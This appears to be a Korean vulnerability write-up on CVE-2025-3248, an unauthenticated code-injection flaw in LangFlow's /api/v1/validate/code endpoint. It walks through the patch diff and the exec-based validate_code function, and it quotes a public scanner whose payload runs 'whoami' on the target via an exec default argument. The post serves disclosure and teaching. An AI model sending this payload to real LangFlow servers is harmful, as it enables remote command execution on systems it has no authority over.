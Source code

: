 ```yaml
---
title: "[하루한줄] CVE-2025-3248: LangFlow Code Injection Vulnerability"
author: mungsul
tags: [LangFlow, code injection, AI, AI Agent, CVE-2025-3248, mungsul]
categories: [1day1line]
date: 2025-04-13 11:00:00
cc: true
index_img: /img/1day1line.png
---
```

## URL

- https://github.com/xuemian168/CVE-2025-3248/

## Target

- LangFlow < 1.3.0 

## Explain

AI 에이전트 빌드 및 배포 도구인 LangFlow 에서 Code Injection 취약점이 발견되었습니다.

LLM 이 생성한 코드를 검증하는 API 인 `/api/v1/validate/code` 에서 `exec` 를 호출하는 함수인 `validate_code()` 를 내부적으로 호출합니다. 

해당 API 를 아무나 호출할 수 있었기에 [1], 현재 사용자만 이용 가능하도록 패치가 이루어졌습니다. [2]

```python
from fastapi import APIRouter, HTTPException
from loguru import logger
from langflow.api.v1.base import Code, CodeValidationResponse, PromptValidationResponse, ValidatePromptRequest
from langflow.base.prompts.api_utils import process_prompt_template
from langflow.utils.validate import validate_code
# build router
router = APIRouter(prefix="/validate", tags=["Validate"])

@router.post("/code", status_code=200)
-async def post_validate_code(code: Code) -> CodeValidationResponse: # [1]
+async def post_validate_code(code: Code, current_user: CurrentActiveUser) -> CodeValidationResponse: [2]
    try:
        errors = validate_code(code.code)
        return CodeValidationResponse(
            imports=errors.get("imports", {}),
            function=errors.get("function", {}),
        )
    except Exception as e:
        logger.opt(exception=True).debug("Error validating code")
        raise HTTPException(status_code=500, detail=str(e)) from e
        
```

`validate_code()` 는 POST 로 전달받은 `code` 에 import 문과 python 함수 선언문이 있는지 확인 하여 import 문이 있는 경우 이름에 해당하는 모듈을 로드하고 [3] , 함수가 선언되었을 경우 `exec` 를 통해 코드를 실행합니다. [4]

```python
def validate_code(code):
    # Initialize the errors dictionary
    errors = {"imports": {"errors": []}, "function": {"errors": []}}

    # Parse the code string into an abstract syntax tree (AST)
    try:
        tree = ast.parse(code)
    except Exception as e:  # noqa: BLE001
        if hasattr(logger, "opt"):
            logger.opt(exception=True).debug("Error parsing code")
        else:
            logger.debug("Error parsing code")
        errors["function"]["errors"].append(str(e))
        return errors

    # Add a dummy type_ignores field to the AST
    add_type_ignores()
    tree.type_ignores = []

    # Evaluate the import statements
    for node in tree.body:
        if isinstance(node, ast.Import):
            for alias in node.names:
                try:
                    importlib.import_module(alias.name) # [3]
                except ModuleNotFoundError as e:
                    errors["imports"]["errors"].append(str(e))

    # Evaluate the function definition
    for node in tree.body:
        if isinstance(node, ast.FunctionDef):
            code_obj = compile(ast.Module(body=[node], type_ignores=[]), "<string>", "exec")
            try:
                exec(code_obj) # [4]
            except Exception as e:  # noqa: BLE001
                logger.opt(exception=True).debug("Error executing function code")
                errors["function"]["errors"].append(str(e))
```

공개된 CVE-2025-3248 스캐너([link](https://github.com/xuemian168/CVE-2025-3248/))에서는 위 규칙에 맞게 python 함수를 선언하며 시스템 명령을 실행시키는 구문을 삽입한 것을 확인할 수 있습니다. [5]

```python
# 스캐너 코드 일부 발췌
...
    def check_vulnerability(self):
        """Check if target is vulnerable to Langflow vulnerability"""
        try:
            validate_url = urljoin(self.url, '/api/v1/validate/code')

            payload = {
                "code": """
def test(cd=exec('raise Exception(__import__("subprocess").check_output("whoami", shell=True))')):
    pass
"""  # [5] 
            }
            
            print(f"{Fore.YELLOW}[*] Testing endpoint: {validate_url}")
            response = self.session.post(
                validate_url, 
                json=payload, 
                timeout=self.timeout
            )
  ...
```

여담이지만, 해당 패치로 Preauth 취약점까지는 막혔더라도, python 코드를 실행시키는 구조는 여전하기에 Account Takeover 나 세션 탈취와 같은 다른 취약점을 연계한다면 취약점이 재발현 될 수도 있겠다는 생각을 하게 되네요. 😥



## Reference

- https://github.com/xuemian168/CVE-2025-3248/

- https://github.com/langflow-ai/langflow

- https://github.com/langflow-ai/langflow/pull/6911/commits/dbae45f5717b9bf0f3096fce7399851aba27e658